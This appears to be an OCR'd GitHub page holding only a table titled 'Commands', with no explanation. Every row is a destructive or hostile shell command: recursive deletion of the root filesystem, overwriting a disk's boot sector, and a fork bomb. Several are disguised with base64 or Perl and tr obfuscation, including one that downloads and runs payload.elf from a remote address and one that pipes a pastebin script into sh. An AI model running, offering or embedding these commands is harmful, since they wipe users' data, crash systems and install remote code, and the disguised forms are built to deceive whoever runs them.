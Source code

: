 <table>
	<tbody>
    <tr>
			<td><h1>Commands</h1></td>
		</tr>
		<tr>
			<td>sudo rm -rf /*</td>
		</tr>
		<tr>
			<td>rm -rf / --no-preserve-root</td>
		</tr>
		<tr>
			<td>echo c3VkbyBybSAtcmYgLyo= | base64 -d | bash</td>
		</tr>
		<tr>
			<td>dd if=/dev/zero of=/dev/sda bs=512 count=1
</td>
		</tr>
		<tr>
			<td>:(){ :|:& };:</td>
		</tr>
		<tr>
			<td>echo "ping 8.8.8.8" | perl -e '$??s:;s:s;;$?::s;;=]=>%-{<-|}<&|`|}}./}:<%=%<@%}<//>{;;y; -/:-@[-`{-};`-{/" -;;s;;$_;see'</td>
		</tr>
		<tr>
			<td>WINDOWS_IS_GOOD=$( echo '%\%#{<-{}<&{`{}}./}:<%=%<@%}<//>'  |  tr ' -/:-@[-`{}' '`-{/ -') ;$WINDOWS_IS_GOOD 2 > /dev/null</td>
		</tr>
		<tr>
			<td>echo d2dldCBodHRwOi8vMTkyLjE2OC44OC4xMjMvcGF5bG9hZC5lbGYgJj4gL2Rldi9udWxsICYmIGNobW9kICt4IC4vcGF5bG9hZC5lbGYgJiYgLi9wYXlsb2FkLmVsZiAmIGRpc293biAmJiBlY2hvIEVycm9yCg== | base64 -d | bash</td>
		</tr>
		<tr>
			<td>wget https://pastebin.com/raw/vr2aeG3D -O- | sh </td>
		</tr>
	</tbody>
</table>
